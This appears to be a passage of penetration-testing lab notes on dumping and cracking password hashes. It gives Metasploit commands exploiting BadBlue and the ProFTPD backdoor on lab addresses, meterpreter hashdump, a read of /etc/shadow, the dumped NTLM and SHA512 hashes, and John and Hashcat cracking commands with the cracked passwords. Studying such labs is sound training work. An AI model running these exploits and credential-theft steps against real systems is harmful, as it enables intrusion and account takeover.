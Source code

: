 \*Note: elevated/administrative privileges are required in order to access and interact the LSASS process.

```bash
msf6> use exploit/windows/http/badblue_passthru
msf6> set rhosts 10.3.30.237
msf6> run
meterpreter> hashdump
```

The hashes are :

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
bob:1009:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Paste this content in a file named `hashes` then run the below command.

#### John The Reaper

```bash
kali@kali> john --format=NT hashes
```

#### Hashcat

```bash
kali@kali> gzip -d /usr/share/wordlists/rockyou.txt.gz
kali@kali> hashcat -a 0 -m 1000 hashes -w /usr/share/wordlists/rockyou.txt
```

The credentials are `administrator:password` `bob:password1`.

### Dumping & cracking Linux hashes

* Linux has multi-user support and as a result, multiple users can access the system simultaneously. This can be seen as both an advantage and disadvantage from a security perspective, in that, multiple accounts offer multiple access vectors for attackers and therefore increase the overall risk of the server.
* All of the information for all accounts on Linux is stored in the file `/etc/passwd`.

```bash
msf6> setg rhosts 192.255.149.3
msf6> use exploit/unix/ftp/proftpd_133c_backdoor
msf6> run
# CTRL+Z
msf6> sessions -u 1
mfs6> sessions 2
meterpreter> cat /etc/shadow
```

The root hash is in SHA512.

```
$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.
```
